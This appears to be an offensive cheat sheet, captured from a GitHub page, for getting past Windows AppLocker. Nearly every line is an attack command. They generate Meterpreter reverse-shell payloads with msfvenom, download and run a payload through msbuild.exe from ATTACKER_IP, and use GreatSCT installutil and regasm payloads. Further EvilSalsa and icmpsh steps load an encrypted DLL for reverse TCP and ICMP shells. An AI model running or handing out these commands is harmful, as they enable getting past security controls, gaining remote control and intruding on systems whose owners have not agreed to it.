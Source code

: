 ## &nbsp;&nbsp;&nbsp;&nbsp; Applocker ByPass 
<pre class="prettyprint linenums:"><code class="language-py">https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/VerifiedAppLockerBypasses.md
https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/DLL-Execution.md

# Multistep process to bypass applocker via MSBuild.exe:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.56 LPORT=9001  -f csharp -e x86/shikata_ga_nai -i <n-iterations> > out.cs 

# Replace the buf-sc and save it as out.csproj
https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml

Invoke-WebRequest "http://ATTACKER_IP/payload.csproj" -OutFile "out.csproj"; C:\windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe .\out.csproj

# or you can simply use my tool :)
https://github.com/morph3/Msbuild-payload-generator
sudo python msbuild_gen.py -a x86 -i 10 --lhost 192.168.220.130 --lport 9001 -m
</code></pre>

## &nbsp;&nbsp;&nbsp;&nbsp; GreatSCT 
<pre class="prettyprint linenums:"><code class="language-powershell"># This also needs Veil-Framework
python GreatSCT.py --ip 192.168.1.56 --port 443 -t Bypass -p installutil/powershell/script.py -c "OBFUSCATION=ascii SCRIPT=/root/script.ps1"

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false payload1.exe

python3 GreatSCT.py -t Bypass -p regasm/meterpreter/rev_tcp --ip 192.168.1.56 --port 9001
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U payload.dll
</code></pre>

## &nbsp;&nbsp;&nbsp;&nbsp; EvilSalsa
<pre class="prettyprint linenums:"><code class="language-powershell">#Preparing payloads
python EncrypterAssembly/encrypterassembly.py EvilSalsa.dll supersecretpass123 evilsalsa.dll.txt
EncrypterAssembly.exe EvilSalsa.dll supersecretpass123 evilsalsa.dll.txt

#Executing payload
SalseoLoader.exe password http://ATTACKER_IP/evilsalsa.dll.txt reversetcp ATTACKER_IP 9001

# Reverse icmp shell
python icmpsh_m.py "ATTACKER_IP" "VICTIM_IP"
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp ATTACKER_IP
</code></pre>
